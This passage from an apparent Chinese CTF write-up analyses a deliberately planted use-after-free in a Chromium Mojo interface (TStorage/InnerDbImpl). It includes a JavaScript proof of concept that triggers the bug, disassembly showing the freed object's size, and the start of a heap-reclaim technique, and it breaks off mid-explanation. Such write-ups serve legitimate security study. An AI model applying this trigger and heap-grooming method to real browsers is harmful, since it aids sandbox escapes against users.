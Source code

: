 这个方法不是出题人的意思，出题人的本意是漏洞二。即通过两次调用`Init`函数来形成`UAF`漏洞，及在调用`TStorageImpl::Init`初始化`inner_db_`以后；再调用`TStorageImpl::CreateInstance`来创建`TInstance`；然后再调用`TStorageImpl::Init`函数再次申请`inner_db_`，此时智能指针会自动释放之前的对象内存；然而该内存在创建`TInstance`已经被作为参数传入了，因此后续使用`TInstance`仍然可以使用被释放的内存，形成`uaf`漏洞。

`poc`代码如下：

```js
async function poc()
{

    let tStoragePtr = new blink.mojom.TStoragePtr();
    Mojo.bindInterface(
        blink.mojom.TStorage.name,
        mojo.makeRequest(tStoragePtr).handle,
    );

    // malloc innerdb
    tStoragePtr.init();
    // get TInstance ptr
    let tInstancePtr = (await tStoragePtr.createInstance()).instance;

    // free the innerdb ptr by free malloc innerdb again
    tStoragePtr.init();

    // still call freed innerdb by tInstangcePTr.
    await tInstancePtr.getTotalSize();
}
```

利用
--

上面漏洞已经分析清楚了，现在再来说说利用的事。

首先要解决的是`uaf`所释放的内存`InnerDbImpl`有多大，以及我们如何可以使用可控的内存来控制它。

我们可以将断点下在`TStorageImpl::Init`，得到如下的代码。可以看到`InnerDbImpl`的大小是`0x678`。

```asm
   0x555558f0a0b8    push   rbx
   0x555558f0a0b9    push   rax
   0x555558f0a0ba    mov    r14, rsi
   0x555558f0a0bd    mov    r15, rdi
   0x555558f0a0c0    mov    edi, 0x678
 ► 0x555558f0a0c5    call   0x55555ae3d9f0 &lt;0x55555ae3d9f0&gt;

   0x555558f0a0ca    mov    rbx, rax
   0x555558f0a0cd    mov    rdi, rax
   0x555558f0a0d0    call   content::InnerDbImpl::InnerDbImpl() 
```

另一个就是释放`0x678`大小的内存以后，我们怎样再将它申请出来。之前做的题都可以申请任意大小的内存，然而在这里所有的内存大小都是固定的，只有整数队列`queue_`可能可以发生变化。参考的文章是[0CTF/TCTF 2020 Quals Chromium SBX](https://mem2019.github.io/jekyll/update/2020/07/03/TCTF-Chromium-SBX.html)里的方法，确实很巧妙。总的来来说是通过扩大可控的`queue_`来实现任意内存的分配。

具体来说`push_front`以及`pop_front`的扩大内存分配以及缩小内存分配的函数是`ExpandCapacityIfNecessary`以及`ShrinkCapacityIfNecessary`
